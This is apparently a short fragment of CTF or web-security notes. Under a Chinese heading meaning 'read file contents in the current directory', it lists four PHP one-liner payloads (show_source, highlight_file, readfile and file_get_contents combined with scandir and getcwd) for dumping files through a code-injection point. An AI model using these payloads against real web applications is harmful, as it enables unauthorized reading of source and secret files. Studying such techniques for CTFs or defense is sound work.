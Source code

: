 <figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

#### <mark style="color:red;background-color:orange;">（2)读取当前目录下文件内容</mark>

```php
show_source(end(scandir(getcwd())));
highlight_file(end(scandir(getcwd())));
readfile(end(scandir(getcwd())));
file_get_contents(end(scandir(getcwd())));
```

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>
